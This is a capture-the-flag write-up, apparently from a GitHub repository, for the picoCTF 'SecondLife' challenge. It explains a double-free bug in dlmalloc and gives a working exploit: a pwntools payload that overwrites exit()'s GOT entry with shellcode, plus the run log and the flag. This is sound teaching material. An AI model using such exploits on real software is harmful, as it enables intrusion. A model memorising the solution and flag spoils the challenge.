



# SecondLife

## Background

This is double free vulnerability in Doug Lea's malloc. This challenge is an example taken from [Secure Coding in C and C++](https://www.amazon.com/Secure-Coding-2nd-Software-Engineering/dp/0321822137). A complete analysis of the example exists in the book (section 4.7, Double-Free Vulnerabilities), and this writeup is inspired by it. It is also recommended that you read the "Heap overflow" writeup before reading this one since it explains the basics of heap overflows. The double free vulnerability takes advantage of an overflow on the heap.

Double free vulnerability:

    ```c++
    free(first); // <-- 'first' is freed
    free(third);
    fifth=malloc(128);
    free(first); // <-- 'first' is freed again
    ```

The double free vulnerability arises from freeing the same chunk of memory twice without its being reallocated between the two free operations.

Using this vulnerability, it is possible to write a DWORD (4 bytes) to an arbitrary memory location, as long as the following additional conditions are met:

    1. The chunk to be freed must be isolated in memory (that is, the adjacent chunks must be allocated so that no consolidation takes place).
    2. The bin into which the chunk is to be placed must be empty. An empty bin has forward and backward pointers that are self-referential.
    3. Some other chunk needs to be freed after the double-free chunk is freed for the first time. This is because when a chunk is freed for the first time, it is moved to a special bin which acts as a "cache bin". When another allocation is performed, the chunk in the cache bin will be checked first and if it is compliant with the allocation requirements, it will be used. If, on the other hand, another chunk has been freed while a chunk is in the cache bin, the newly freed chunk will replace the older chunk in the cache bin and the older chunk will move to a regular bin. The attack requires the double-free chunk to be in a regular bin.

Empty bin and allocated memory chunk:



Structure after the memory chunk is freed for the first time:



When a chunk of memory is freed, it must be linked into the appropriate double-linked list. In `dlmalloc`, this is performed by the `frontlink` code segment:

```c++
BK = bin;
FD = BK->fd;
if (FD != BK) {
    while (FD != BK && S < chunksize(FD)) {
        FD = FD->fd;
    }
    BK = FD->bk;
}
P->bk = BK;
P->fd = FD;
FD->bk = BK->fd = P;
```

The `frontlink` code segment is executed after adjacent chunks are consolidated. The `frontlink` function is still called if a chunk is not consolidated with its neighboring chunks. After the frontlink code segment executes, the bin’s forward and backward pointers reference the freed chunk, and the chunk’s forward and backward pointers reference the bin. This is the expected behavior, as we now have a double-linked list containing the free chunk.

However, if the memory chunk referenced is freed a second time, the data structure is corrupted. As shown below, the bin’s forward and backward pointers still reference the chunk, but the chunk’s forward and backward pointers become self-referential.



The bin's doubly-linked list still points to the chunk, but the chunk itself doesn't point back to the bin. So, the chunk can still be allocated, but it is impossible to actually remove it from the bin with `unlink()` as part of the allocation process. Invoking the `unlink()` macro to remove the chunk from the bin will leave the pointers unchanged. Instead of the chunk being removed from the bin, the data structures remain exactly as they appeared in the figure before the memory allocation request. This brings the heap manager to a state where it will continue to provide the same chunk for all future allocation requests which match the bin criteria.

## Problem

> Just pwn this program using a double free and get a flag. It's also found in /problems/secondlife_1_b2d4198bf562d945454af6ac9fa3d8ae on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. How the [vuln.c](./vuln.c) code meets the requirements for this exploit:

    1. `first=malloc(256);` (Line 22): allocate our target
    2. `second=malloc(256);` (Line 26): allocated and used to ensure that `first` and `third` will not be consolidated
    3. `third=malloc(256);` (Line 27): allocate and will be used later to move `first` from the cache bin to a regular bin
    4. `fourth=malloc(256);` (Line 28): allocate and used to ensure that `third` is not consolidated
    5. `free(first);` (Line 29): put `first` into the cache bin. When moving to the bin, the heap manager tries to consolidate the `first` chunk. However, the `second` chunk is allocated so it cannot be consolidated.
    6. `free(third);` (Line 30): frees the `third` chunk, thus moving the first chunk to a regular bin since `third` is now in the cache bin. The allocation of the `second` and `fourth` chunks earlier prevents the `third` chunk from being consolidated.
    7. `fifth=malloc(128);` (Line 31): allocates the `fifth` chunk, which causes memory to be split off from the `third` chunk, and as a side effect, the `first` chunk is moved to a regular bin (its one chance to be reallocated from the cache bin has passed)
    8. `free(first);` (Line 32): memory is now configured so that freeing the first chunk a second time sets up the double-free vulnerability

2. How to exploit the double free vulnerability:

    1. `sixth=malloc(256);` (Line 33): allocates the `sixth` chunk but `malloc()` returns a pointer to the same chunk referenced by `first`. This happens because `sixth` is the same size as first (aka the same bin).
    2. `puts("You..."); gets(sixth);` (Lines 34-35): the GOT address of the `exit()` function (minus 12) and the shellcode location are copied into this memory
    3. `seventh=malloc(256);` (Line 36): the same (as `first` and `sixth`) memory chunk is allocated yet again as the `seventh` chunk. However, this time, when the chunk is allocated, the `unlink()` macro copies the address of the shellcode into the address of the `exit()` function in the global offset table (and overwrites a few bytes near the beginning of the shellcode).
    4. `exit(0);` (Line 37): the `exit()` function is called and control is transferred to the shellcode

3. Recap: We allocate the memory block `first` and free it twice without consolidation to a regular bin with no blocks already in it. Then, when we allocate the `sixth` block and the heap manager tries to run the `unlink()` macro on the unallocated `first` block. However, the unlink does not work as intended since the forwards and backwards pointers in the `first` block are self-referential. Thus, the `first` block remains connected to the bin for `first`'s size and will always be returned when a size from that represents that bin is requested. We write the address in the GOT of some later function that is called (in this case `exit()`) followed by the address of our shellcode. When the `seventh` chunk is requested, the pointer to the `first` chunk is returned again. But this time the forward and backward addresses have been overwritten. Thus, when the `unlink()` macro runs, it will overwrite the GOT entry for the function (`exit()`) with the address of our shellcode.

4. Payload code:

    ```python
    shell_code = asm('jmp l1; nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop; l1: push {}; ret;'.format(hex(exe.symbols["win"])))
    payload = p32(exe.got["exit"] - 12) + p32(address + 8) + shell_code
    ```

    `address` is the address of `first` which is leaked (printed to terminal) by the program. We add `8` to this address because our shellcode is 8 bytes after the start of the `first` block. The first 8 bytes contain the GOT address of `exit()` (minus 12) and the address of the shellcode (plus 8). The "trampoline" `jmp` is necessary as explained in the "Heap overflow" challenge.

5. Run the [script.py](script.py) to get the flag `python script.py USER=<username> PASSWORD=<password>`:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/SecondLife/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [+] Connecting to 2019shell1.picoctf.com on port 22: Done
    [*] <username>@2019shell1.picoctf.com:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Opening new channel: 'pwd': Done
    [+] Receiving all data: Done (14B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] Working directory: '/tmp/tmp.iYib94tjZQ'
    [+] Opening new channel: 'ln -s /home/<username>/* .': Done
    [+] Receiving all data: Done (0B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] win address: 0x8048956
    [*] exit address: 0x804d02c
    [+] Starting remote process b'/problems/secondlife_1_b2d4198bf562d945454af6ac9fa3d8ae/vuln' on 2019shell1.picoctf.com: pid 1694128
    [*] first address: 0x89dc008
    [*] shellcode:
        00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 56  │····│····│····│··hV│
        00000010  89 04 08 c3                                         │····│
        00000014
    [*] payload:
        00000000  20 d0 04 08  10 c0 9d 08  eb 0c 90 90  90 90 90 90  │ ···│····│····│····│
        00000010  90 90 90 90  90 90 68 56  89 04 08 c3               │····│··hV│····│
        0000001c
    [+] picoCTF{HeapHeapFlag_f26c09e1}
    ```

### Flag

`picoCTF{HeapHeapFlag_f26c09e1}`